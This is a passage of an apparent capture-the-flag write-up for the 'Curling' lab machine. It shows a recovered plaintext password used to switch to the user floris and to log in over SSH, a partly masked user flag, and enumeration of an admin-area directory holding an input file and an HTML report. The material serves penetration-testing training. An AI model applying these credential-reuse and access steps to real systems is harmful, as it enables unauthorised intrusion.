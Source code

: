 ```
5d<wdCbdZu)|hChXll
```

```
www-data@curling:/home/floris$ su - floris
Password: 5d<wdCbdZu)|hChXll
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
```

ssh as Floris is a better shell option
```
$ ssh floris@10.10.10.150
floris@10.10.10.150's password: 5d<wdCbdZu)|hChXll
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-156-generic x86_64)

  System information as of Mon Oct 31 03:26:31 UTC 2022

  System load:  0.0               Processes:            172
  Usage of /:   67.0% of 3.87GB   Users logged in:      0
  Memory usage: 35%               IP address for ens33: 10.10.10.150
  Swap usage:   0%

Last login: Mon Oct 31 03:26:24 2022 from 10.10.14.14
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
```

```
floris@curling:~$ cat user.txt 
9925************************c12a
```


```
floris@curling:~/admin-area$ ls -lha
total 28K
drwxr-x--- 2 root   floris 4.0K Aug  2 14:44 .
drwxr-xr-x 7 floris floris 4.0K Oct 31 03:46 ..
-rw-rw---- 1 root   floris   25 Oct 31 04:12 input
-rw-rw---- 1 root   floris  14K Oct 31 04:12 report
```


```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

```
floris@curling:~/admin-area$ cat report 
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
        <link href="/index.php?format=feed&amp;type=atom" rel="alternate" type="application/atom+xml" title="Atom 1.0" />
        <link href="/templates/protostar/favicon.ico" rel="shortcut icon" type="image/vnd.microsoft.icon" />
        <link href="/templates/protostar/css/template.css?b6bf078482bc6a711b54fa9e74e19603" rel="stylesheet" />
        <link href="https://fonts.googleapis.com/css?family=Open+Sans" rel="stylesheet" />
```